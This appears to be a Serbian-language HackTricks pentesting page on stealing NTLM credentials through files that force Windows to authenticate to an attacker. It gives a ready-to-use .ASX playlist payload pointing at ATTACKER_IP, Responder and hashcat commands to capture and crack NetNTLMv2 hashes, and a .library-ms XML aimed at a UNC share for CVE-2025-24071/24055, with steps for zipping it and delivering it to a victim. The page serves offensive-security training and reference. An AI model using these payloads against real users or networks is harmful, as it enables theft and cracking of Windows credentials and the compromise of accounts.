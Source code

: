 # Mesta za krađu NTLM creds

{{#include ../../banners/hacktricks-training.md}}

**Pogledajte sve sjajne ideje sa [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) — od preuzimanja microsoft word datoteke online do izvora ntlm leaks: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md i [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**


### Windows Media Player playlists (.ASX/.WAX)

Ako možete naterati metu da otvori ili pregleda Windows Media Player playlistu koju kontrolišete, možete leak Net‑NTLMv2 tako što ćete postaviti unos na UNC putanju. WMP će pokušati da preuzme referenciranu medijsku datoteku preko SMB i implicitno će se autentifikovati.

Primer payload:
```xml
<asx version="3.0">
<title>Leak</title>
<entry>
<title></title>
<ref href="file://ATTACKER_IP\\share\\track.mp3" />
</entry>
</asx>
```
Tok prikupljanja i cracking:
```bash
# Capture the authentication
sudo Responder -I <iface>

# Crack the captured NetNTLMv2
hashcat hashes.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
### ZIP-ugrađen .library-ms NTLM leak (CVE-2025-24071/24055)

Windows Explorer nesigurno obrađuje .library-ms fajlove kada se otvore direktno iz ZIP arhive. Ako definicija biblioteke pokazuje na udaljeni UNC put (npr. \\attacker\share), samo pregledanje/pokretanje .library-ms unutar ZIP-a natera Explorer da enumeriše UNC i pošalje NTLM autentifikaciju napadaču. To rezultuje NetNTLMv2 koji se može razbiti vanmrežno ili potencijalno relayed.

Minimalna .library-ms koja pokazuje na UNC napadača
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<version>6</version>
<name>Company Documents</name>
<isLibraryPinned>false</isLibraryPinned>
<iconReference>shell32.dll,-235</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<simpleLocation>
<url>\\10.10.14.2\share</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
Operativni koraci
- Kreirajte .library-ms fajl sa XML-om iznad (podesite svoj IP/ime hosta).
- Spakujte ga u ZIP (na Windows: Send to → Compressed (zipped) folder) i dostavite ZIP cilju.
- Pokrenite NTLM capture listener i sačekajte da žrtva otvori .library-ms iz ZIP‑a.


## References
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)
- [HTB: Media — WMP NTLM leak → NTFS junction to webroot RCE → FullPowers + GodPotato to SYSTEM](https://0xdf.gitlab.io/2025/09/04/htb-media.html)
- [Morphisec – 5 NTLM vulnerabilities: Unpatched privilege escalation threats in Microsoft](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/)


{{#include ../../banners/hacktricks-training.md}}
